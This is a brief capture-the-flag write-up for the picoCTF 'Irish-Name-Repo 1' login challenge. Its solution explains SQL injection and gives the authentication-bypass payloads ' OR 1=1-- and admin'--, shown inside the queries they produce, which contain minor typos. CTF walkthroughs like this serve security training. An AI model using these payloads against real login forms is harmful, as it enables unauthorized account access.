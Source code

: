 # Irish-Name-Repo 1

## Information

### Description

There is a website running at https://jupiter.challenges.picoctf.org/problem/50009/ (link) or http://jupiter.challenges.picoctf.org:50009. Do you think you can log us in? Try to see if you can login!

### Hints

1. There doesn't seem to be many ways to interact with this. I wonder if the users are kept in a database?

2. Try to think about how the website verifies your login.

## Solution

- [SQL Injection](https://en.wikipedia.org/wiki/SQL_injection)

- SQL query
    ```sql
    "SELECT * FROM customers WHERE name =' Username ' AND password = ' Password '
    ```
- Password:`' OR 1=1--`
    ```sql
    "SELECT * FROM customers WHERE name= ' Username ' AND passwors  = '' OR 1=1--'"
    ```
- Username: admin'--
    ```sql
    "SELECT * FROM customers WHERE name =' admin'-- ' AND password = ' Password '
    ```

    